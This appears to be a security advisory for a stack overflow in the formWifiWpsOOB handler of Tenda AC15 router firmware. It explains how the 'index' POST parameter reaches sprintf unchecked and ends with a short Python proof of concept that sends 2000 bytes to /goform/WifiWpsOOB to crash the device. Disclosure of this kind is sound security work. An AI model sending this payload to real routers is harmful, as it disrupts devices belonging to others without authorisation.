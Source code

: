 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `nptr` can trigger this security vulnerability.

![image-20240306172913194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172913194.png)

![image-20240314180524501](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180524501.png)

![image-20240306172902301](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172902301.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314180538888](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314180538888.png)
